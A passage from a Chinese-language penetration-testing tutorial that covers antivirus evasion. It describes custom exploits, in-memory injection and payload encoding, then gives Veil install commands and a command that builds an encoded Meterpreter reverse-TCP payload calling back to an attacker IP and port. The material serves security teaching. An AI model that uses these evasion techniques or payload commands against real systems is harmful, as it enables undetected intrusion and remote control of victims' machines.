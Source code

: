 现在继续启动 Metasploit。导出我们创建的模块，并尝试利用易受攻击的服务器：

![](img/9f271686-e0b4-46fd-b09e-a2f0f2a3b0c2.png)

正如我们所看到的，我们开发的漏洞利用程序完美地运行，并为我们提供了受害者机器的反向 shell，而在我们的情况下，这台机器与我们正在使用的机器相同。

# 对 shell 代码进行编码以避免检测

现在假设我们已经在我们正在测试的底层服务中发现了一个漏洞。然而，在这种情况下，该服务器已安装了杀毒软件。任何优秀的杀毒软件都将包含所有知名漏洞的签名，通常几乎所有 Metasploit 漏洞利用模块的签名都会存在。因此，我们必须使用一种可以规避杀毒软件检测的方法。这意味着我们需要使用某种编码或其他方法来传递我们的有效负载，以避免杀毒软件的检测。我们可以通过三种不同的方式来做到这一点：

1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义利用程序。这种方法很有用，因为自定义利用程序不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共利用程序，并进行大量修改以改变其产生的签名。我们在 Web 利用案例中开发的利用程序都是从头开始编写的，理论上不应该被任何 AV 检测到。

1.  第二种方法是将我们的有效载荷/利用程序注入到底层系统的进程内存中。这样做将在内存中执行代码，并且大多数防病毒软件都不会检测到。

1.  第三种方法是利用编码来防止被检测。在本节中，我们将看到如何利用一个非常强大的编码框架 VEIL 来制作一个可能逃避 AV 检测的有效载荷。

# 下载和安装 Veil

应该注意，Veil 已预装在最新版本的 Kali Linux 中。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```py
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

一旦 Veil 成功安装，生成 Veil 编码有效载荷就是一个非常简单的任务。在使用 Veil 时，背后发生的事情是，它试图使利用代码变得神秘和随机，以便基于签名的检测工作的 AV 可能会被利用的随机性和神秘性所愚弄。有两种方法可以做到这一点。一种方法是使用 Veil 提供的交互式 shell。这可以通过输入命令`veil`，然后在规避模块下选择一个有效载荷来调用。另一个更简单的选择是在命令行中指定所有选项，如下所示：

```py
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```
